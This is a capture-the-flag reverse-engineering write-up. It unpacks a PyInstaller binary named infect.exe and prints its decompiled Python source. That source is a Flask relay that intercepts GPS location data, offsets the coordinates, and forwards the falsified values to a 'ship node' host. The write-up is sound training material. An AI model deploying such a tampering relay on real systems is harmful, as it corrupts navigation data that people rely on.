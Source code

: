 # I Love Reversing

### 1. Run DiEC tools on infect.exe

![img0.png](ctf-writeups/writeups/2025/hacktheon-sejong/I-Love-Reversing/img0.png)

From the output, the binary was compiled and packed with PyInstaller. In order to reverse engineer the binary, we have to utilize a tool the contents of a PyInstaller compiled executlable file. The tool used is [**pyinstxtractor**](https://github.com/extremecoders-re/pyinstxtractor) which is available in Github
### 2. Run pyinstxtractor with the binary
![img1.png](ctf-writeups/writeups/2025/hacktheon-sejong/I-Love-Reversing/img1.png)

After running it, there will be extracted pyc file used in the executable and collected in a directory named infect.exe_extracted. Within the directory, we can find out the infect.pyc. Next, we have to decompile the pyc to python source code file in order to understand the behavior.

### 3. Decompile infect.pyc with PyLingual

![[img2.png]]

With using infected.pyc, we chunk it into **PyLingual** (Online Python Decompiler) to view the source code. It will then look like this upon successfully decompiled.

![img3.png](img3.png)

And here is the source code infect.py code:
```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: infect.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)
import requests
from flask import Flask, request, jsonify
app = Flask(__name__)
def infect(location_data):
	location_data['latitude'] += 2.593627
	location_data['longitude'] += 2.593627
	return location_data

@app.route('/location_data', methods=['POST'])
def location_data():
	location_data = request.json
	print('Received data from attack instruction PC:', location_data)
	location_data = infect(location_data)
	url = 'http://192.168.101.101:4653/location_data'
	response = requests.post(url, json=location_data)
	print('Response from ship node:', response.text)
	return jsonify({'message': 'Data forwarded to ship node successfully!'})

if __name__ == '__main__':
app.run(host='0.0.0.0', port=4653)
```

This python script serves as a malware web server which runs a flask web server that accepts POST request with JSON payloads. It infects the input data by adding 2.593627 to the GPS latitude and longitude values. Therefore, we got the flag which is `FLAG{2.593627}`
